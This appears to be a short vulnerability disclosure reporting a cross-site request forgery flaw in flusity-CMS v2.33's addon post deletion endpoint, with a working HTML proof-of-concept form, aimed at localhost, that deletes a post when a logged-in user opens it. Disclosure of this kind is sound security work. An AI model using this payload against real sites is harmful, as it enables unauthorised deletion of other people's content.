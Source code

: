 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /cover/addons/jd_simple_zer/action/delete_addon_post.php

![1](https://github.com/TinkAnet/cve/assets/118334129/ccf2b87b-c810-4a66-b94b-3d89c27922bc)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/cover/addons/jd_simple_zer/action/delete_addon_post.php">
      <input type="hidden" name="name" value="jd&#95;simple&#95;zer" />
      <input type="hidden" name="id" value="14" />
      <input type="hidden" name="addon&#95;post&#95;id" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/TinkAnet/cve/assets/118334129/2f70b497-65b4-4c97-9b22-8b040ea42d28)


Successed

![3](https://github.com/TinkAnet/cve/assets/118334129/5157d432-aad9-46b2-9253-e9e66d6d24b1)
